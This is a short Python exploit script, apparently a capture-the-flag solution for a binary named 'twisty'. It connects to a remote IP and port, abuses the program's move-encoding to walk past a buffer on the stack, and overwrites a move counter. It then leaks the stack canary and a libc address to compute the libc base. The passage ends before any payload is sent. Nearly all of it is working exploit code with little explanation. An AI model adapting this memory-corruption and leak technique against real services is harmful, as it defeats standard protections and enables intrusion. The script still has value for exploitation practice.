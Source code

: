 ```python


ENC_TBL={
0x0 : "c0u", 
0x1 : "c1u", 
0x2 : "c2u", 
0x3 : "c3u", 
0x4 : "c0d", 
0x5 : "c1d", 
0x6 : "c2d", 
0x7 : "c3d", 
0x8 : "r0r", 
0x9 : "r1r", 
0xa : "r2r", 
0xb : "r3r", 
0xc : "r0l", 
0xd : "r1l", 
0xe : "r2l", 
0xf : "r3l" 
}

DEC_TBL={v: k for k, v in ENC_TBL.iteritems()}

def write_nibble(nib):
    p.sendlineafter("> ", ENC_TBL[nib])

def write_word(word):
    nibs = hex(word)[2:].rjust(16, "0")[::-1]
    for i in range(0,len(nibs),2):
        p.sendlineafter("> ", ENC_TBL[int(nibs[i+1],16)])
        p.sendlineafter("> ", ENC_TBL[int(nibs[i],16)])

def decode_word(moves):
    word = ""
    for i in range(0, len(moves), 2):
        word += hex(DEC_TBL[moves[i+1]])[2:]
        word += hex(DEC_TBL[moves[i]])[2:]
    return int(word[::-1],16)


context.terminal = ['tmux', 'splitw', '-h']
with context.verbose:
    libc=ELF('libc-2.23.so')
    #p = process('../twisty', env={"LD_PRELOAD":'libc-2.23.so'})
    p = remote("138.68.67.161", 20007)
    #libc=ELF('libc.so.6')
    #p = process('./twisty', env={"LD_PRELOAD":'libc.so.6'})

    # Traverse stack to reach nrOfMoves
    for i in range(0x800*2):
        write_nibble(0xa)

    # Overwrite nrOfMoves
    write_word(0x1200)
    p.sendlineafter("> ", "l")

    # Leaks for days
    moves_done = p.recvline().split(" ")[:-1]
    canary      = decode_word(moves_done[0x1000+0x20:0x1000+0x20+0x10])
    libc_leak   = decode_word(moves_done[0x1000+0xa0:0x1000+0xa0+0x10])
    #pie_leak    = decode_word(moves_done[0x1000+0x50:0x1000+0x50+0x10])
    #stack_leak  = decode_word(moves_done[0x1000+0x70:0x1000+0x70+0x10])
    libc.address = libc_leak + 0x24b60 - libc.symbols['system']
```